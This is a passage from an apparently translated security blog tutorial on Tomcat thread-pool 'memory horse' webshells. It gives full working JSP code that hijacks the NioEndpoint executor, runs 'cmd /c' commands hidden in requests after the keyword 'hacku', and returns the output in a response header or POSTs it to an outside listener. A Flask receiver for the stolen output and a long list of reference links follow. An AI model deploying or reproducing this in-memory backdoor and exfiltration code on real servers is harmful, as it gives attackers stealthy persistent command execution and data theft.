                                    ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                                    for (Object tmp_object : objects) {
                                        RequestInfo request = (RequestInfo) tmp_object;
                                        Response response = (Response) getField(getField(request, "req"), "response");
                                        String result = URLEncoder.encode(new String(res, StandardCharsets.UTF_8), StandardCharsets.UTF_8.toString());
                                        response.addHeader("Result", result);
                                    }
                                } catch (Exception ignored) {
                                    continue;
                                }
                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
        }

        @Override
        public void execute(Runnable command) {
            getRequest(command);
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getStandardService();
    ThreadPoolExecutor exec = (ThreadPoolExecutor) getField(nioEndpoint, "executor");
    threadexcutor exe = new threadexcutor(exec.getCorePoolSize(), exec.getMaximumPoolSize(), exec.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, exec.getQueue(), exec.getThreadFactory(), exec.getRejectedExecutionHandler());
    nioEndpoint.setExecutor(exe);
%>
```

For the above analysis of memory horses, please refer to the following article:

> https://mp.weixin.qq.com/s/cU2s8D2BcJHTc7IuXO-1UQ

Effect:


It should be noted that the code in the original text does not take into account the situation where the command output results contain Chinese characters, so the `url` encoding is required, which I have improved in the above code.

Of course, if the target condition is running, you can also use `yakit` to take it out directly. The `jsp` code is as follows:

```jsp
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.ThreadFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.OutputStream" %>
<%@ page import="java.net.HttpURLConnection" %>
<%@ page import="java.net.URL" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.net.URLEncoder" %>
<%@ page import="java.util.Arrays" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    public Object getField(Object object, String fieldName) {
        Field declaredField;
        Class<?> clazz = object.getClass();
        while (clazz != Object.class) {
            try {
                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException ignored) {}
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    public Object getStandardService() {
        Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = this.getField(thread, "target");
                Object jioEndPoint = null;
                try {
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception ignored) {}
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                        return jioEndPoint;
                    } catch (Exception e) {
                        new Object();
                    }
                } else {
                    return jioEndPoint;
                }
            }
        }
        return new Object();
    }

    class threadexcutor extends ThreadPoolExecutor {

        public threadexcutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory, RejectedExecutionHandler handler) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory, handler);
        }
        
        public void getRequest(Runnable command) {
            try {
                ByteBuffer byteBuffer = ByteBuffer.allocate(16384);
                byteBuffer.mark();
                SocketWrapperBase socketWrapperBase = (SocketWrapperBase) getField(command, "socketWrapper");
                socketWrapperBase.read(false, byteBuffer);
                ByteBuffer readBuffer = (ByteBuffer) getField(getField(socketWrapperBase, "socketBufferHandler"), "readBuffer");
                readBuffer.limit(byteBuffer.position());
                readBuffer.mark();
                byteBuffer.limit(byteBuffer.position()).reset();
                readBuffer.put(byteBuffer);
                readBuffer.reset();
                String a = new String(readBuffer.array(), StandardCharsets.UTF_8);
                if (a.contains("hacku")) {
                    String b = a.substring(a.indexOf("hacku") + "hacku".length() + 1, a.indexOf("\r", a.indexOf("hacku"))).trim();
                    if (b.length() > 1) {
                        try {
                            Runtime rt = Runtime.getRuntime();
                            Process process = rt.exec("cmd /c " + b);
                            java.io.InputStream in = process.getInputStream();
                            java.io.InputStreamReader resultReader = new java.io.InputStreamReader(in);
                            java.io.BufferedReader stdInput = new java.io.BufferedReader(resultReader);
                            StringBuilder s = new StringBuilder();
                            String tmp;
                            while ((tmp = stdInput.readLine()) != null) {
                                s.append(tmp);
                            }
                            if (!s.toString().isEmpty()) {
                                byte[] res = s.toString().getBytes(StandardCharsets.UTF_8);
                                getResponse(res);
                            }
                        } catch (IOException ignored) {
                        }
                    }
                }
            } catch (Exception ignored) {}
        }

        public void getResponse(byte[] res) {
            try {
                Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (!threadName.contains("exec") && threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
                                    ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                                    for (Object tmp_object : objects) {
                                        RequestInfo request = (RequestInfo) tmp_object;
                                        Response response = (Response) getField(getField(request, "req"), "response");
                                        if(sendPostRequest("http://127.0.0.1:8085", res)){
                                            response.addHeader("Result", "success");
                                        } else {
                                            response.addHeader("Result", "failed");
                                        }
                                    }
                                } catch (Exception ignored) {
                                    continue;
                                }
                            }
                        }
                    }
                }
            } catch (Exception ignored) {}
        }

        private boolean sendPostRequest(String urlString, byte[] data) {
            try {
                URL url = new URL(urlString);
                HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                connection.setRequestMethod("POST");
                connection.setDoOutput(true);
                connection.setRequestProperty("Content-Type", "application/octet-stream");
                connection.setRequestProperty("Content-Length", String.valueOf(data.length));
                try (OutputStream outputStream = connection.getOutputStream()) {
                    outputStream.write(data);
                    outputStream.flush();
                    int responseCode = connection.getResponseCode();
                    return responseCode == HttpURLConnection.HTTP_OK;
                } catch (Exception ignored){
                    return false;
                }
            } catch (IOException ignored) {
                return false;
            }
        }

        @Override
        public void execute(Runnable command) {
            getRequest(command);
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getStandardService();
    ThreadPoolExecutor exec = (ThreadPoolExecutor) getField(nioEndpoint, "executor");
    threadexcutor exe = new threadexcutor(exec.getCorePoolSize(), exec.getMaximumPoolSize(), exec.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, exec.getQueue(), exec.getThreadFactory(), exec.getRejectedExecutionHandler());
    nioEndpoint.setExecutor(exe);
%>
```

Turn on the monitor first:



Then send the packet twice, the first time is to access `888.jsp`, and the second time is to execute the command:


You can see that the data has been transferred:


Of course, the one that comes with `yakit` is flawed, it cannot be accepted continuously, because it cannot return a custom status code, so we can write one by `python`:

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/postendpoint', methods=['POST'])
def handle_post_request():
    if request.method == 'POST':
        if request.data:
            print("Received data:", request.data.decode())
            return '', 200
        else:
            return 'No data received', 400

if __name__ == '__main__':
    app.run(debug=True)
```

Then modify the url in the `jsp` code:


The final effect is as follows:


# 6. Thanks

I read the following articles in the process of learning Java memory horses. Each article has more or less helped and inspired me, so I listed it here to express my sincere gratitude:

```
https://zhuanlan.zhihu.com/p/634697114
https://blog.csdn.net/shelter1234567/article/details/133435490
https://xz.aliyun.com/t/12494
https://xz.aliyun.com/t/7348
https://xz.aliyun.com/t/7388
https://longlone.top/安全/java/java安全/内存马/Tomcat-Servlet型/
https://chenlvtang.top/2022/06/22/Tomcat之Filter内存马/
https://drun1baby.top/2022/08/22/Java内存马系列-03-Tomcat-之-Filter-型内存马/
https://www.jb51.net/article/167204.htm
https://f4de-bak.github.io/pages/10060c/
https://tyaoo.github.io/2021/12/06/Tomcat内存马/
https://github.com/bitterzzZZ/MemoryShellLearn/tree/main
https://mp.weixin.qq.com/s/BrbkTiCuX4lNEir3y24lew
https://yzddmr6.com/posts/tomcat-context/
https://mp.weixin.qq.com/s/x4pxmeqC1DvRi9AdxZ-0Lw
https://gv7.me/articles/2020/kill-java-web-filter-memshell/
https://mp.weixin.qq.com/s/eI-50-_W89eN8tsKi-5j4g
https://xz.aliyun.com/t/9914
https://goodapple.top/archives/1355
https://su18.org/post/memory-shell/
https://nosec.org/home/detail/5049.html
https://su18.org/post/memory-shell/#控制器-拦截器-管道
https://su18.org/post/memory-shell-2/#延伸线程型内存马
https://javasec.org/
https://www.cnblogs.com/javammc/p/15612780.html
https://landgrey.me/blog/12/
https://landgrey.me/blog/19/
https://www.cnblogs.com/zpchcbd/p/15545773.html
https://xz.aliyun.com/t/11039
https://github.com/LandGrey/webshell-detect-bypass/blob/master/docs/inject-interceptor-hide-webshell/inject-interceptor-hide-webshell.md
https://www.cnblogs.com/bitterz/p/14859766.html
https://www.javasec.org/javaweb/MemoryShell/
https://www.yongsheng.site/2022/06/18/内存马(二)/
https://segmentfault.com/a/1190000040939157
https://developer.aliyun.com/article/925400
https://su18.org/post/memory-shell/
https://forum.butian.net/share/2593
https://xz.aliyun.com/t/12952
https://www.0kai0.cn/?p=321
https://xz.aliyun.com/t/11331
https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/
https://cloud.tencent.com/developer/article/1888001
https://blog.csdn.net/qq_41048524/article/details/131534948
https://blog.csdn.net/weixin_45505313/article/details/103257933
https://xz.aliyun.com/t/10372
https://www.anquanke.com/post/id/224698
https://forum.butian.net/share/2436
http://124.223.185.138/index.php/archives/28.html
https://longlone.top/安全/java/java安全/内存马/Tomcat-Valve型/
https://su18.org/post/memory-shell/#tomcat-valve-内存马
https://www.freebuf.com/articles/web/344321.html
https://nosec.org/home/detail/5077.html
https://github.com/veo/wsMemShell
https://veo.pub/2022/memshell/
https://tttang.com/archive/1673/
https://www.viewofthai.link/2022/07/20/value型内存马/
https://jiwo.org/ken/detail.php?id=3147
https://paoka1.top/2023/04/24/Tomcat-Agent-型内存马/
https://www.anquanke.com/post/id/225870
https://xz.aliyun.com/t/11988
https://www.cnblogs.com/piaomiaohongchen/p/14992056.html
https://blog.csdn.net/text2204/article/details/129307931
https://xz.aliyun.com/t/13024
https://www.cnblogs.com/coldridgeValley/p/5816414.html
http://wjlshare.com/archives/1541
https://cloud.tencent.com/developer/article/2278400
https://www.freebuf.com/vuls/345119.html
https://tttang.com/archive/1709/
https://xz.aliyun.com/t/11593
https://xz.aliyun.com/t/11613
https://p4d0rn.gitbook.io/java/memory-shell/tomcat-middlewares/executor
https://p4d0rn.gitbook.io/java/memory-shell/tomcat-middlewares/upgrade
https://github.com/Gh0stF/trojan-eye/tree/master
https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09
https://xz.aliyun.com/t/12949
https://paoka1.top/2023/04/21/Tomcat-WebSocket-型内存马/
https://mp.weixin.qq.com/s/cU2s8D2BcJHTc7IuXO-1UQ
```